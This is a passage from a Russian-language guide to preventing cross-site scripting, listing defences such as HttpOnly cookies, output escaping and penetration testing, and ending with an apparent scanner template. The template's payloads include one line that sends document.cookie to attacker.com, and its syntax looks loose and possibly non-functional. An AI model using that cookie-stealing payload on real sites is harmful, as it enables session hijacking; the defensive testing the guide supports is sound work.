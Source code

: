 1. Куки только для HTTP: Используйте флаг HttpOnly при настройке файлов cookie, чтобы предотвратить доступ клиентских скриптов к конфиденциальным файлам cookie. Это помогает защититься от атак с перехватом сеанса.

1. Правильно экранируйте вывод: При динамической генерации HTML, JavaScript или другого содержимого убедитесь, что данные, предоставленные пользователем, правильно экранированы, чтобы они не были интерпретированы как код. Используйте контекстно-зависимые функции экранирования, предоставляемые вашим фреймворком или языком программирования.

1. Безопасные фреймворки и библиотеки разработки: Используйте безопасные фреймворки и библиотеки, которые имеют встроенные средства защиты от XSS-атак. Такие фреймворки часто предоставляют механизмы для автоматического экранирования или санации пользовательского ввода при рендеринге шаблонов или генерации HTML.

1. Регулярно обновляйте и ставьте заплатки: Поддерживайте все компоненты веб-приложения, включая фреймворки, библиотеки и плагины, в актуальном состоянии с помощью последних патчей безопасности. В этих компонентах могут быть обнаружены XSS-уязвимости, и обновления часто устраняют эти уязвимости.

1. Обучайте и тренируйте разработчиков: Организуйте для разработчиков программы обучения и повышения осведомленности в области безопасности, чтобы ознакомить их с рисками XSS-атак и практикой безопасного кодирования. Научите их правильно проверять, обеззараживать и устранять пользовательский ввод для предотвращения XSS-уязвимостей.

1. Тестирование на проникновение и сканирование безопасности: Регулярно проводите тестирование на проникновение и сканирование безопасности, чтобы выявить любые XSS-уязвимости в вашем веб-приложении. Используйте автоматические сканеры уязвимостей или привлекайте специалистов по безопасности для ручной оценки безопасности.

Соблюдая эти превентивные меры, вы сможете значительно снизить риск XSS-атак и защитить свое веб-приложение и пользователей от возможных вредоносных действий. Для обеспечения надежной защиты от XSS-уязвимостей необходимо применять многоуровневый подход к безопасности, сочетая методы безопасного кодирования, проверку ввода, кодирование вывода и регулярное тестирование безопасности.

```
id: xss
info:
  name: Cross-Site Scripting (XSS)
  author: Your Name
  severity: high
  description: Detects potential Cross-Site Scripting vulnerabilities in web applications.
  references:
    - https://example.com
tags:
  - web
  - xss
requests:
  - name: XSS Payload Test
    path:
      - /
      - /login
      - /admin
    matchers:
      - type: status
        status:
          - 200
    attacks:
      - type: fuzz
        payloads:
          - '<script>alert("XSS");</script>'
          - '<img src=x onerror=alert("XSS")>'
          - '<svg/onload=alert("XSS")>'
          - '<script>location.href="https://attacker.com/cookie.php?cookie="+document.cookie;</script>'
      - type: regex
        part: body
        words:
          - 'document\.cookie'
```